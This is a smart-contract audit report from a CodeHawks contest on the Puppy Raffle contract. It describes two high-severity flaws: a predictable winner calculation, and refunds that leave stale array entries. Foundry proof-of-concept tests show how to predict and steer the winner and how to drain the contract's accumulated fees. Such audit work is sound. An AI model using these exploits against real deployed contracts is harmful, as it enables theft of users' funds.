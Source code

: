 # First Flight #2: Puppy Raffle - Findings Report

# Table of contents
- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)
- ## High Risk Findings
    - ### [H-01. Insufficient Randomization Leads to Prediction of Winner](#H-01)
    - ### [H-02. Broken array handling leading to loss of funds](#H-02)




# <a id='contest-summary'></a>Contest Summary

### Sponsor: First Flight #2

### Dates: Oct 25th, 2023 - Nov 1st, 2023

[See more contest details here](https://www.codehawks.com/contests/clo383y5c000jjx087qrkbrj8)

# <a id='results-summary'></a>Results Summary

### Number of findings:
   - High: 2
   - Medium: 0
   - Low: 0


# High Risk Findings

## <a id='H-01'></a>H-01. Insufficient Randomization Leads to Prediction of Winner            



## Summary
The `selectWinner()` function uses insufficient methods to calculate the random winner of the raffle, leading to an attacker being able to predict the winner of the raffle.

## Vulnerability Details
The winner's index is calculated based upon non-random values, which can be calculated and predicted by an attacker:
`uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length`
Since the raffle duration is a known value, the block.timestamp at the time of `selectWinner()` can be calculated.

<details>

<summary>Code</summary>

```javascript
    // @audit-issue predict the winner of the raffle
    // the function to generate the winner index is not random, but relies on predictable values, like
    // the msg.sender, block.timestamp and block.difficulty. We can calculate the winner prior to the raffle.
    // UNDERLYING ISSUE: WINNER INDEX IS PREDICTABLE
    function testWalleWinnerIsRandom() public {
        // SET-UP
        address[] memory players = new address[](5);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        players[4] = playerFive;
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

        // predict winner
        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(address(this), block.timestamp + duration + 1, block.difficulty))) % players.length;
        
        // end raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        // we predicted the winner
        assertFalse(puppyRaffle.previousWinner() == players[winnerIndex]);
    }
```

</details>

Run the test with `forge test -f $LOCAL_RPC_URL --mt testWalleWinnerIsRandom -vv`.

## Impact
An attacker could arbitrarily join raffles, check if they win and refund, if they don't, basically leading to winning every raffle. Adding arbitrarily new players to the raffle even changes the outcome of the raffle, so that an attacker could change the outcome to his own advantage (=win).

<details>

<summary>Code</summary>

```javascript
    // add this to the contract definition
    address[] public playersDynamic;

    // @audit-duplicate make the winner of the raffle be playerOne
    // since we can predict the winner of the raffle by a mathematical calculation depending on the playersize,
    // we can simply add players until the winner is us (in this case: playerOne = playersDynamic[0])
    // UNDERLYING ISSUE: PLAYERS ARRAY SIZE IS NOT SHRINKED UPON REFUND, LEADING TO INCORRECT SIZE 
    //                   WINNER INDEX IS PREDICTABLE
    function testWalleCantTargetWinner() public {
        // Set-Up => we need 4 players to start raffle. Attacker is the first to enter the raffle.
        for (uint256 j = 1; j <= 4; j++) {
            playersDynamic.push(address(j));
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersDynamic.length}(playersDynamic);
        
        // Check, if Attacker (here: playerDynamic[0]) wins. If we don't win add another player
        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(address(this), block.timestamp + duration + 1, block.difficulty))) % playersDynamic.length;
        uint256 i = 5;
        while (playersDynamic[winnerIndex] !=  playersDynamic[0]) {
            address[] memory player = new address[](1);
            player[0] = address(i);
            playersDynamic.push(player[0]);
            puppyRaffle.enterRaffle{value: entranceFee}(player);
            winnerIndex = uint256(keccak256(abi.encodePacked(address(this), block.timestamp + duration + 1, block.difficulty))) % playersDynamic.length;
            i++;
        }
        console.log("Total players in the raffle: ", playersDynamic.length);
        console.log("Predicted winner: ", playersDynamic[winnerIndex]);

        // skip to end of raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        assertFalse(puppyRaffle.previousWinner() == playersDynamic[winnerIndex]);
    }
```

</details>

## Tools Used

## Recommendations
## <a id='H-02'></a>H-02. Broken array handling leading to loss of funds            



## Introduction
This is my very first finding and submission in the smart contract space. Excuse me, if the report is not that well written and might be a bit confusing. This First Flight was a lot of fun and a ton of new stuff to learn for me, a lot of thanks to you guys!

## Summary
The `refund(uint256)` function does not correctly remove a players index from the array, but sets it to the 0-address. This leads to the `<array>.size()` not being decremented. Because `<array>.size` is used in further calculations, this leads to a malicious actor being able to drain the contracts fees.

## Vulnerability Details
The `refund(uint256)` functions comments `(@dev This function will allow there to be blank spots in the array)` reveal, that there are blank spots in the array. I wrote a test to see, if that affects the `<array>.size` value:

<details>

<summary>Code</summary>

```javascript
    // @audit-exploit Array size is not reduced upon refund
    //      The length of the player array is not reduced, wenn a player decides to refund.
    //      Thus, when four players enter and one player decides to refund, the raffle still
    //      starts, even though there are only three players.
    function testWallePlayerArrayLengthReducedAfterRefund() public playersEntered {
        // get the index of playerTwo and refund
        uint256 indexOfPlayer = puppyRaffle.getActivePlayerIndex(playerTwo);
        vm.prank(playerTwo);
        puppyRaffle.refund(indexOfPlayer);

        // check, if player has correctly refunded
        indexOfPlayer = puppyRaffle.getActivePlayerIndex(playerTwo);
        bool isActivePlayer = indexOfPlayer > 0;
        assertFalse(isActivePlayer);

        // now there should be 3 players left in the pool --> not enough to end the raffle --> skip to raffle end
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // contract did not revert and tries  to select a winner -> this fails, because of another bug.
        vm.expectRevert("PuppyRaffle: Need at least 4 players");
        puppyRaffle.selectWinner();
    }
```

</details>

As expected, the `<array>.size()` is not decremented. While running the test above with `forge test -f $LOCAL_RPC_URL --mt testWallePlayerArrayLengthReducedAfterRefund -vvvv`, specific lines of output caught my eye:


```javascript
├─ [40652] PuppyRaffle::selectWinner()
    │   ├─ [0] 0x0000000000000000000000000000000000000000::fallback{value: 3200000000000000000}()
    │   │   └─ ← "EvmError: OutOfFund"
```

The `OutOfFund` error occurs, when a contracts balance is smaller than the value it tries to send. After further examining the `selectWinner()` function, these three lines stand out:

```javascript
uint256 totalAmountCollected = players.length * entranceFee;
uint256 prizePool = (totalAmountCollected * 80) / 100;
uint256 fee = (totalAmountCollected * 20) / 100;
```

Apparently, the `<array>.length` `(=players.length)` value is used to calculate the amount of entrance fees payed by the players as well as the final prize pool. Since players, that refunded, are not correctly removed from the list of players, they still count towards the final prize pool. The `refund(uint256)` function not only does not remove the players correctly, it fails to deduct their fee payback from the final prize pool as well.

A malicious actor can use this to continously add and refund new players to the raffle to increase the prize pool (up to a maximum of the contracts balance, which was 0 in my previous test, which is why it reverted).

This can further be combined with another vulnerability, which I will describe in another report, that allows the winner of a raffle to be predicted (and even changed) prior to the end of a raffle due to insufficient randomness.

Let's summarize the attack:
1. `<array>.size()` in the `refund(uint256)` function does not correctly remove players from the array
2. New players can arbitrarily be added and refunded to the raffle, inflating the array size
3. the raffle's prize pool uses this size to calculate the final prize pool (which is then higher as intended)
4. the winner of the raffle can be predicted (and altered) to match the attackers address
5. the contract pays out the raffle's prize pool + an amount depending on the number of players joining and refunding during the raffle => loss of fees collected

See the following test code to test for the vulnerability:

<details>

<summary>Code</summary>

```javascript

     // add this to the contract definition
     address[] public playersDynamic;

    // @audit-issue a malicious actor can drain the contracts fees
    // we know, because of the previous 2 exploits, that we can predict the winner AND we can
    // actually alter the winner to a player of our choice
    // Now we use these two exploits to drain the contract of any additional fees the contract holds
    // UNDERLYING ISSUE: PLAYERS ARRAY SIZE IS NOT SHRINKED UPON REFUND, LEADING TO INCORRECT SIZE 
    function testWallePlayerCantDrainFees() public {
        // ########## SET-UP ##########
        // we raffle a few times to have some fees available in the contract
        // every player pays 1 ETH entrance fee => 4 ETH per round
        // 20% is cut off as fee => 4 * 0.2 = 0.8 ETH per round
        // we play 10 times => 8 ETH fees should be available in the contract
        uint256 totalFees;
        for (uint256 j; j < 10; j++) { // IF EXPLOIT FAILS DUE TO INSUFFICIENT FUNDS, CHANGE THIS TO A HIGHER NUMBER
            address[] memory players = new address[](4);
            players[0] = playerOne;
            players[1] = playerTwo;
            players[2] = playerThree;
            players[3] = playerFour;
            puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
            vm.warp(block.timestamp + duration + 1);
            vm.roll(block.number + 1);
            puppyRaffle.selectWinner();
            totalFees = totalFees + (entranceFee * 4 * 20/100); // = 8 ETH
        }
        uint256 contractBalance = address(puppyRaffle).balance;
        // we indeed have 8 ETH
        console.log("Contract balance:                        ", contractBalance);
        assertEq(contractBalance, totalFees); 
        // ########## SET-UP DONE ##########

        // ########## EXPLOIT START ##########
        // Description
        // When a player refunds, their index at the player array is not deleted, but set to the zero address
        // This does make the player essentially disappear from the raffle, but it does not change the array.length
        // thus, the total prize pool is unaffected, see the following lines from puppyRaffle.selectWinner():
        //          uint256 totalAmountCollected = players.length * entranceFee;
        //          uint256 prizePool = (totalAmountCollected * 80) / 100;
        // nevertheless, the player refunding is actually refunded their entrance fee. This means, the function
        // puppyRaffle.selectWinner() is actually paying more than it should be (exact: entranceFee * NumberPlayersRefunding *80/100)
        // this value is deducted from the contract, meaning from the 20% fees the contract takes from each raffle.
        // To exploit this issue, and preventing random players being rewarded by the exploit, we need to combine this exploit with
        // another issue (=> testWalleCantTargetWinner), that calculates the winner prior to the raffle ending.

        // add 4 players, Attacker = playersDynamic[0].
        for (uint256 i = 1; i <= 4; i++) {
            playersDynamic.push(address(i));
        }
        uint256 numPlayers = playersDynamic.length;
        puppyRaffle.enterRaffle{value: entranceFee * playersDynamic.length}(playersDynamic);
        uint256 maxPayout = playersDynamic.length * entranceFee * 80/100; // this should be the maximum a player can win
        console.log("Players actual in raffle:                ", numPlayers);
        console.log("Supposed Raffle value:                   ", playersDynamic.length * entranceFee);
        console.log("Supposed Maximum payout:                 ", maxPayout);

        // we're gonna add players to the raffle, until the attacker (index 0) wins according to testWalleCantTargetWinner(),
        // but this time we are going to refund the new player immediately
        uint256 winnerIndex = 1; // this enforces the entrance into the while-loop, since playersDynamic[0] != playersDynamic[1]. 
                                 // This way we add and refund at least one additional player, leading to drain of fees
        uint256 i = 5;
        while (playersDynamic[winnerIndex] !=  playersDynamic[0]) {
            address[] memory player = new address[](1);
            player[0] = address(i);
            playersDynamic.push(player[0]);
            puppyRaffle.enterRaffle{value: entranceFee}(player);
            uint256 playerIndex = puppyRaffle.getActivePlayerIndex(player[0]);
            vm.prank(player[0]);
            puppyRaffle.refund(playerIndex);
            winnerIndex = uint256(keccak256(abi.encodePacked(address(this), block.timestamp + duration + 1, block.difficulty))) % playersDynamic.length;
            i++;
        }

        // logging stuff
        uint256 actualPayout = playersDynamic.length * entranceFee * 80/100;
        console.log("Players actually in raffle:              ", playersDynamic.length);
        console.log("Actual payout:                           ", actualPayout);
        uint256 drainAmount = actualPayout - maxPayout;
        console.log("Drain amount:                            ", drainAmount);
        console.log("Supposed contract balance after exploit: ", contractBalance-maxPayout);
        console.log("Actual contract balance after exploit:   ", contractBalance-actualPayout);

        
        

        // skip to end of raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        assertEq(maxPayout, actualPayout);
        // ########## EXPLOIT DONE ##########

    }
```

Run the test at least with `-vv` to see the logs: `forge test -f $LOCAL_RPC_URL --mt testWallePlayerCantDrainFees -vv`

</details>


## Impact
Exploiting this vulnerability may lead to complete loss of funds. This highly depends on how many players can join and immediately refund without changing the winner to someone else than the attacker and not exceeding the contract.balance.


## Tools Used
- foundry

## Recommendations
- remove refunding players from the player array or
- remove the entrance fee payed back to refunding players from the prize pool
		





